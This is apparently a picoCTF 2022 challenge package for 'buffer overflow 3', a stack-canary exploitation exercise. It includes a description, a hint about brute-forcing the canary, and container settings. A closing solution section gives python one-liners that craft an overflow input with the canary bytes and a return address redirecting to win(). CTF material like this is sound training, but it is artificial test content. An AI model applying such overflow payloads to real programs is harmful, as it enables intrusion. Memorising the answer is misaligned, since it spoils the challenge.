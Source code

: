 # buffer overflow 3

- Namespace: picoctf/picoctf2022
- ID: buffer-overflow-3
- Type: custom
- Category: Binary Exploitation
- Points: 300
- Templatable: yes

## Description

Do you think you can bypass the protection and get the flag?

## Details
It looks like Dr. Oswal added a stack canary to this
{{url_for("vuln", "program")}} to protect against buffer overflows. You can
view source {{url_for("vuln.c", "here")}}. And connect with it using:

`nc {{server("canary")}} {{port("canary")}}`

## Hints

- Maybe there's a smart way to brute-force the canary?

## Learning Objective

Understanding Static Stack Canaries

## Challenge Options

```yaml
cpus: 0.5
memory: 128m
pidslimit: 20
ulimits:
  - nofile=128:128
diskquota: 64m
init: true
```

## Tags

- canary

## Attributes

- author: Sanjay C / Palash Oswal
- organization: picoCTF
- event: picoCTF 2022

## How to solve?
Your input should overflow the buffer. You can carefully craft an input to
check the bytes of canary.
Example:
python -c "print '64\n' +'A'*64" > input // no overflow
python -c "print '65\n' +'A'*64 + '\x42'" > input // no overflow
python -c "print '92\n' +'A'*64 + 'BiRd' + 'A'*16 + '\x36\x93\x04\x08' "  > input // win() prints flag
